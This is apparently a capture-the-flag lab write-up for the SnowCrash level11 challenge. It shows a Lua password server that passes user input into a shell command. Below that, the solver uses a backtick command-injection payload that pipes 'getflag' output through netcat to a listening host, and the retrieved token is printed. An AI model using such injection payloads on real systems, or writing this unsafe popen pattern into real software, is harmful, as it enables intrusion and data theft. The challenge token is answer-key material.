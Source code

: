 level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end


new ssh session 1
nc -l 3131

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag | nc 10.11.162.105 3131`
Erf nope..
level11@SnowCrash:~$


session 1 
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s